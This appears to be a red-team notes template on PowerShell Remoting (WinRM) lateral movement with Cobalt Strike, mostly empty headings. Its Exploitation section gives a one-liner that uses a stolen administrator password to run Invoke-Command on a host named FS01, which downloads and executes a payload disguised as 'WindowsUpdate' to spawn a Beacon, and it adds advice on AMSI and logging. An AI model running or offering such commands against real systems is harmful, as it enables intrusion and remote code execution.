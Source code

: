 
### Technique Overview
PowerShell Remoting uses Windows Remote Management (WinRM) to allow users to run PowerShell commands on remote computers.
- Window remoting is another popular remote administration method.

Advantage > 1 Attacker to Many Hosts = WinRM
- The benefit of Windows Remoting over RDP is that it allows to make changes at scale, instead of having to do everything manually one by one. It should come as no surprise that it is also a popular lateral movement technique for adversaries!
###### OPSEC
Keep in mind that we are using PowerShell for lateral movement in this case, and that PowerShell commands are prone to extensive security measures such as AMSI and script-block logging.
# C2 - Cobalt Strike
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

![[Pasted image 20240411234042.png]]

Let's construct our PowerShell OneLiner. We will create alternate credentials and pass those along with our Invoke-Command to execute our payload on FS01 
- Note: We got Administrator creds stored in `troubleshooting.ps1` PS file. These were found stored in the 'Sales' share accessible to the low privilege user we compromised.

```powershell
powershell $pspassword=ConvertTo-SecureString "sup3rs3cr3tP@ssw0rd!!" -AsPlainText -Force;$cred= New-Object System.Management.Automation.PSCredential("FS01\Administrator",$pspassword);Invoke-Command -ComputerName fs01 -Credential $cred -ScriptBlock {powershell.exe -nop -w hidden -c "IEX(irm -useb 'http://10.130.4.100:8888/WindowsUpdate')"}
```

After successfull completion of the command, a new Beacon will check-in with high integrity.

![[Pasted image 20240411234257.png]]

---
# Windows
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```

----
# Linux
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```
